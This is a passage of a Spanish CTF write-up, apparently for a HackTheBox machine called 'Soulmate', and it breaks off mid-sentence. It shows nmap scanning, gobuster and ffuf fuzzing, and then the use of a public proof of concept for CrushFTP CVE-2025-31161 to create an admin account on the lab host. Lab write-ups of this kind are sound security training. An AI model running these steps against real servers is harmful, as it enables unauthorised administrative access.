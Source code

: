 ## Reconocimiento
Empezaremos haciendo uso de [[NMAP]] para hacer un reconocimiento inicial
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

Nos encontramos abiertos los puertos `22/ssh` `80/HTTP`
Navegamos al puerto `80` vía web y nos encontramos una web `soulmate.htb` que la añadiremos al `/etc/hosts` junto con la IP correspondiente de la maquina, volvemos a recargar el navegador y ya nos carga la web.

Haremos fuzzing sobre los directorios con [[GOBUSTER]] `gobuster -u http://soulmate.htp` una vez hemos hecho esto y no hemos encontrado nada relevante

Haremos fuzzing de subdominios con [[FFUF]] `ffuf -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" \ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4`
Encontramos un dominio llamado `ftp.soulmate.htb` así que navegamos a el.

Nos encontramos una web de gestión de FTP llamado `CrushFTP`, buscamos en el código fuente y encontramos la versión `11.W.657`, navegamos por internet en búsqueda de vulnerabilidades que haya habido y encontramos el CVE `CVE-2025-31161`

Para poder explotarlo nos descargamos el repositorio `git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161` y ejecutamos el fichero `.py` 
`python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123`

Con esto nos creara un usuario `test::admin123`

Accedemos a la web y en la parte de `Admin` en las opciones de usuario `User Option` n